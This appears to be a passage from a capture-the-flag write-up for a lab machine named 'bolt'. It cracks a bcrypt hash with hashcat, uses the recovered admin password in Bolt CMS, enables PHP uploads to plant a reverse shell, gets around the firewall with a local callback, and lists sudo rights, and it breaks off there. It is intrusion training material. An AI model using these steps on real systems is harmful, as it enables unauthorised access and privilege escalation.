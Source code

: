 `hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt`
```
$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK:strawberry
```

Use these credentials for admin in the bolt cms.

![](https://i.imgur.com/fkWhQSd.png)

Viola and we have access to file upload. Manage the permissions in the config file to allow for php file extentions.

![](https://i.imgur.com/rA58Kwp.png)

Copy the link to find out where it is hosted.

![](https://i.imgur.com/4s7zI5w.png)


> Note, I moved the revshell to the webroot since files was constantly being wiped
{: .prompt-tip }


![](https://i.imgur.com/cHvjfEw.png)

Due to the firewall, we cannot create a connection to our host from the victim.

`cat /usr/share/ufw/iptables/before.rules`

```
# all other non-local packets are dropped
-A ufw-not-local -m limit --limit 3/min --limit-burst 10 -j ufw-logging-deny
-A ufw-not-local -j DROP
```

![](https://i.imgur.com/w1cIaCS.png)

What I can do instead is to get a reverse shell calling back to the machine itself. It's dropping remote packets but not local packets so it should work.

## Root
```
www-data@bolt:~/html$ whoami;id
whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We got the connection we needed.

`sudo -l`
```
Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*
```
